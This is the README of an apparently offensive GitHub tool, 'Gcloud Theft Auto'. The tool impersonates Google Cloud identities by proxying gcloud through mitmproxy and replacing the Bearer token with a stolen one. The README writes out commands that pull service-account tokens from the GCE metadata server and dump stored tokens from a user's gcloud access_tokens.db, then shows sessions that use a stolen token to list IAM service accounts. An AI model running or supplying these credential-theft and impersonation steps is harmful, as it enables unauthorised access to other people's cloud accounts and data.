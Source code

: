 # GTA - Gcloud Theft Auto

This tool can be used to impersonate anyone given its access token. I have not found a built-in way to do this with gcloud cli.


## Miscellaneous

The tool is very simple : It just proxifies gcloud tool with python3 library mitmproxy, and replace the Bearer token by the one specified in the tool.

It requires to be first logged with ANY account on gcloud so the gcloud tool does not complain. The chosen account has no importance.

You can find juicy access token in GCE/GKE instances metadata, in /home/USER/.config/gcloud/access_tokens.db, and in many other places !


``` bash
$ curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/$SERVICE_ACCOUNT/token -H 'Metadata-Flavor: Google'
$ sqlite3 /home/$USER/.config/gcloud/access_tokens.db "select access_token from access_tokens;"
```

This security tool is a work in progress.

## Install

There is no real installation, as it is a bash cli. Just some requirements :

* gcloud
* python3
* mitmproxy python3 library

``` bash
$ pip3 install mitmproxy
$ export PATH=$PATH:/path/to/gta
```

## Usage

First login in gcloud with ANY account, it doesn't matter
```
$ gcloud auth login
```

Then you can use gta ! 
Just set token (and port is you do not want default 8080)
Whenever you execute a gcloud command, the configuration will be refreshed if any setting has changed


Basic Usage :
``` bash
gta> set token ya29.[...skip...]
gta> start
gta> gcloud iam service-accounts list --project PROJECT
gta> stop
```

Advanced usage :
``` bash
gta> set token ya29.[...skip...]
gta> set project mygcpproject
gta> set port 4444
gta> start
gta> gcloud iam service-accounts list
gta> stop
```

## Change log

Please see [CHANGELOG](CHANGELOG.md) for more information on what has changed recently.

## Testing

No testing yet

## Contributing

Please see [CONTRIBUTING](CONTRIBUTING.md) and [CODE_OF_CONDUCT](CODE_OF_CONDUCT.md) for details.

## Security

If you discover any security related issues, please email thibault.lengagne59@gmail.com instead of using the issue tracker.

## Credits

- Thibault Lengagne

## License

The MIT License (MIT). Please see [License File](LICENSE) for more information.
